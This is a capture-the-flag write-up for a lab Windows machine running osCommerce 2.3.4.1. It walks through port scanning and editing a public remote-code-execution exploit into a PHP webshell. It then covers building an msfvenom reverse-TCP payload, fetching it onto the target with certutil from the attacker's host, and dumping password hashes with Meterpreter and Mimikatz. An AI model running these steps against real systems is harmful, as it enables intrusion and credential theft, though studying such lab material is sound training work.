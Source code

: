 Blueprint writeup(OSCP ✅ Metasploit)

### Nmap
`nmap -T4 -p- IP -vv`
```
Scanning 10.10.178.111 [65535 ports]
Discovered open port 445/tcp on 10.10.178.111
Discovered open port 80/tcp on 10.10.178.111
Discovered open port 3306/tcp on 10.10.178.111
Discovered open port 139/tcp on 10.10.178.111
Discovered open port 135/tcp on 10.10.178.111
Discovered open port 8080/tcp on 10.10.178.111
Discovered open port 443/tcp on 10.10.178.111

```

I normally try web services ports first. `80, 8080, 443`
The cms `osCommerce` is so obvious. All left to do is just to find the version for searching exploits.

### searchsploit
`searchsploit osCommerce 2.3.4`
```                                                                     |  Path
-------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                           | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                         | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                      | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                       | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                          | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                            | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                            | php/webapps/44374.py
-------------------------------------------------------------------------------------- ---------------------------------
```

Those 2 seems what we want
```
osCommerce 2.3.4.1 - Arbitrary File Upload               
osCommerce 2.3.4.1 - Remote Code Execution  
```
Both of them works as you may see it been used in some other writeups. But the first one requires installing a database that is too loud might alert the admin users. Let's go with the latter one.

`searchsploit -m 44374.py` to make a copy to the current path. then open it with your favourite editor. I did with `subl 44374.py` since I use sublime.

Can also reach it on exploit db. https://www.exploit-db.com/exploits/44374

line17 has a double slash typo `base_url = "http://localhost//oscommerce-2.3.4.1/catalog/"` it's no big deal but it better to fix it by simply remove it.

`base_url = "http://localhost/oscommerce-2.3.4.1/catalog/"`

### Real journey starts now
After setting up your baseurl and target url, you can just run the script `python3 44374.py`.
Found the system blocked the `system` keyword for php. 
A little googling shows some alternative.
https://stackoverflow.com/questions/7093860/php-shell-exec-vs-exec
https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80

`shell_exec` and `exec`

#### windows trick/tip/hole here
I tried to see if `shell_exec` or `exec` can be executed.
```
// on Kali
sudo tcpdump -i tun0 icmp
// on 44374.py
payload += 'shell_exec("ping -c 5 ip");'
```
Nothing happened. I can't get them back and it seems not been executed at all. I lost hours here as I was trying some random reverse shell plus other wrong things. **SOLVER**: `ping` for windows `-c` is a wrong parameter. `-n` is what we want.

### Python and PHP payload?
I didn't notice this first. You'll need to find a way out to see the output since your payload is in PHP comments. But the script is in Python.
I didn't try `var_dump(); die();`. It might work for you. These are the final code changes for the webshell.

```
payload = '\');'

# payload += 'exec("ping -n 5 10.x.x.x");'
# payload += '$var = shell_exec("ping -n 5 10.x.x.x");'
# payload += 'echo $var;'

payload += '$var = shell_exec($_GET["cmd"]);'
payload += 'echo $var;' # output make it a real webshell

payload += '/*'
```

### Root flag
```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=whoami
```
You already have root by running `whoami`. `type c:\....\desktop\root.txt.txt` 



### Both OSCP approved Metasploit Usage and non-Metasploit way
https://help.offensive-security.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide

OSCP official doc: You may use the following against all of the target machines:

* multi handler (aka exploit/multi/handler)
* msfvenom
* pattern_create.rb
* pattern_offset.rb

To get a revershell only need the first two.

Generate the payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=12345 -f exe > shell.exe

and make it available for the target to reach
python3 -m http.server 80
```

### windows target get payload from attack(transfer files)
https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/


```
http://10.10.173.99:8080/oscommerce-2.3.4/catalog/install/includes/configure.php?cmd=certutil -urlcache -f http://ip/shell.exe shell.exe
```

after setup listeners run `shell.exe` to trigger it from the webshell

#### Not using Metasploit
`rlwrap nc -lvnp 12345` to get a better reverse shell. Then upload a `Mimikatz.exe` just like uploading the `shell.exe`.  Use it with commanding `lsadump::sam` to reveal all the hashes.

#### Metasploit exploit/multi/handler
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 12345
exploit
```
```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.x.x.x:12345 

[*] Sending stage (175174 bytes) to 10.10.173.99
[*] Meterpreter session 1 opened (10.x.x.x:12345 -> 10.10.173.99:49500) at 2021-05-16 12:02:18 +1200

meterpreter > hashdump
Administrator:500:xxxx:xxxx:::
Guest:501:xxxx:xxxxxxx:::

or using Mimikatz as well
meterpreter > load mimikatz
meterpreter > lsa_dump_sam
hashes shows here..
```
Just use `hashdump` or `load mimikatz` after the shell connected. The hash between `:hash:::`is what you want to crack for. Job well done.

